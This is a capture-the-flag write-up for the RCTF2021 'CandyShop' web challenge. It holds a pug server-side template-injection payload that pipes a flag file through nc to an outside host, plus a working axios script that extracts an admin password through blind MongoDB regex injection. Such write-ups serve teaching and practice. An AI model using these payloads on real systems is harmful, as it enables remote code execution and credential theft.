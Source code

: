 ```yaml
---
layout: post
title:  "CandyShop Writeup"
categories: Writeup RCTF2021
---
```


## CandyShop

[Attachment](https://github.com/catmunch/oss/blob/master/CandyShop.zip?raw=true)

Read the source code of the website, we'll find out that it's driven by express.js & pug template engine.

Then we'll find out the wrong usage of pug in the code:

`src/routes/shop.js`

```javascript
router.post('/order', checkLogin, checkActive, async (req, res) => {
    let {username, candyname, address} = req.body
    let tpl_path = path.join(__dirname, '../views/confirm.pug')
    fs.readFile(tpl_path, (err, result) => {
        if (err) {
            res.render('error', {error: 'Fail to load template!'})
        } else {
            let tpl = result
                .toString()
                .replace('USERNAME', username)
                .replace('CANDYNAME', candyname)
                .replace('ADDRESS', address)
            res.send(pug.render(tpl, options={filename: tpl_path}))
        }
    })
})
```

It uses simply REPLACE to inject the info, rather than use the pug engine!

Then we can try to let the pug execute arbitrary code on the server side. Google it, and we know we just need to prepend `- ` to our javascript code, then it should work fine.

So we let the username be

```javascript
')
                        - process.mainModule.constructor._load('child_process').exec('cat /flag | nc 8.8.8.8 8888 ')
                        .p('
```

Then after it's injected to the template, the template should be like

```javascript
extends layout


block content
    .container
        .row.justify-content-center
            .col-6.mt-5
                .card
                    .card-header.text-center.font-weight-bold(style='background-color: pink;color: white') Confirm Your Order
                    .card-body
                    form(action='/shop/confirm' method='POST')
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='username') User Name
                            .col-6
                                input#username.form-control(type='text' name='username' value='')
                        - process.mainModule.constructor._load('child_process').exec('cat /flag | nc 8.8.8.8 8888 ')
                        .p('' readonly)
                        .form-group.row
                            label.col-form-label.text-md-right.col-4(for='candyname') Candy Name
                            .col-6
                                input#candyname.form-control(type='text' name='candyname' value='CANDYNAME' readonly)
```

Then our code can be executed and we can get the flag.



But wait, we can't call the `POST /order` API cause we don't have an active account. so we should active our account or just use the admin account.

Sadly there's probably no way to active an account, so we can try to get the admin password.



How?

Observe the login code carefully, there seems to be a useless `if` statement

```javascript
let rec = await db.Users.find({username: username, password: password})
if (rec) {
    if (rec.username === username && rec.password === password) {
        res.cookie('token', rec, {signed: false})
        res.redirect('/shop')
    } else {
        res.render('login', {error: 'You Bad Bad >_<'})
    }
} else {
    res.render('login', {error: 'Login Failed!'})
}
```

How can mongodb find a user that its username or password doesn't equal to the input one?

We then find another snippet

```javascript
router.post('/register', async (req, res) => {
    let {username, password} = req.body
    if (typeof(username) !== 'string')
        return res.status(400)
```

Seems like if the username isn't a string, it will cause some unexpected behaviors.

Then we search for the mongodb docs, and we found out we can pass an object to it to perform advanced search like regex.

Therefore, we can try to post /login with parameter `password[$regex]=*`, and we get the response `You Bad Bad >_<`.

But if the regex doesn't match the password, we'll get `Login Failed`.

So just use SQL blind injection, write a script to get the password

```javascript
const axios = require('axios');
async function test(known) {
    const params = new URLSearchParams()
    params.append('username','rabbit');
    params.append('password[$regex]',`^${known}.*$`);
    const res = await axios.post('http://<target host>/user/login',params,{
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        }
    })
    return res.data.indexOf('You Bad Bad') !== -1
}
charset = ['0','1','2','3','4','5','6','7','8','9','a','b','c','d','e','f']
cur = ''
async function main(){
    for(let i=0;i<64;++i){
        for(let j=0;j<16;++j){
            if(await test(cur+charset[j])){
                cur += charset[j]
                process.stdout.write(charset[j]);
                break
            }
        }
    }
}
main()
```

Then we can get the flag.
